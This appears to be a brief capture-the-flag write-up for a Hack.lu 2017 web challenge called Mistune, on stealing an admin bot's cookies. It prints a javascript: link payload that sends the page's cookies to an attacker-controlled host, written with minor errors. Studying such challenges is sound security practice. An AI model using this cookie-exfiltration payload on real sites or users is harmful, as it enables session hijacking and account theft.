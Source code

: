 ```yaml
---
title: Hack.lu CTF 2017 - Mistune
date: '2017-10-19'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_hacklu17
- writeup
- hacklu17
tags:
- web
authors:
- chq-matteo
---
```


1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.  
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````
